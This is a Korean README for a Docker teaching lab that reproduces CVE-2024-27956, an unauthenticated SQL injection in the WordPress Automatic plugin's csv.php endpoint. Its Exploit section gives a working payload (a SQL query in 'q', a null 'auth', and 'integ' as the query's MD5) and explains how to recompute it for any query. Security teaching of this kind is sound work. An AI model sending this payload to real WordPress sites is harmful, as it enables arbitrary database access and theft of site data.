




# WordPress Automatic Plugin CVE-2024-27956

WordPress Automatic Plugin 3.92.0 이하 버전의 `inc/csv.php`에서 발생한 SQL Injection 취약점 실습 환경입니다.

취약한 CSV 다운로드 기능은 `q`, `auth`, `integ` 값을 POST로 전달받습니다. 이때 `q`에 포함된 SQL 쿼리가 충분한 필터링 없이 데이터베이스에 전달되어 임의 SQL 실행으로 이어질 수 있습니다.

이 환경은 실제 유료 플러그인 ZIP을 포함하지 않고, 동일한 요청 흐름을 재현하는 교육용 플러그인을 컨테이너 내부에서 생성합니다.

## Vulnerability

- CVE: CVE-2024-27956
- Product: WordPress Automatic Plugin
- Affected version: 3.92.0 and earlier
- Type: SQL Injection
- Endpoint: `/wp-content/plugins/wp-automatic/inc/csv.php`
- Parameters: `q`, `auth`, `integ`

## Environment

```bash
docker compose up -d --build
```

서비스 상태를 확인합니다.

```bash
docker compose ps
```

WordPress 초기화와 플러그인 생성 로그를 확인합니다.

```bash
docker compose logs wordpress
```

정상적으로 준비되면 아래 로그가 출력됩니다.

```text
[setup] CVE-2024-27956 lab is ready: http://127.0.0.1:8080
```

기본 접속 정보는 다음과 같습니다.

- URL: `http://127.0.0.1:8080`
- ID: `admin`
- Password: `adminpass123!`





## Exploit

PoC는 강의자료의 `curl -d` 예시와 같은 형태의 고정 payload를 전송합니다.

```bash
bash poc/exploit.sh
```

전송되는 주요 값은 다음과 같습니다.

| Parameter | Value |
| --- | --- |
| `q` | `SELECT 'CVE-2024-27956 Exploit' as action, @@VERSION as data, '2024-11-5 04:49:51' as date` |
| `auth` | `%00` |
| `integ` | `c66b4ac73975004d6b788d1ae833ea1e` |

`integ`는 `q` 문자열의 MD5 해시입니다. `q`를 변경하면 `integ`도 함께 변경해야 합니다.



성공하면 CSV 형식의 응답이 출력됩니다.

```text
action,data,date
"CVE-2024-27956 Exploit",10.6.27-MariaDB-ubu2204,"2024-11-5 04:49:51"
```



## Cleanup

```bash
docker compose down -v
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2024-27956
- https://www.cve.org/CVERecord?id=CVE-2024-27956
- https://patchstack.com/database/vulnerability/wp-automatic/wordpress-automatic-plugin-3-92-0-unauthenticated-arbitrary-sql-execution-vulnerability
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-automatic/automatic-3920-unauthenticated-sql-injection
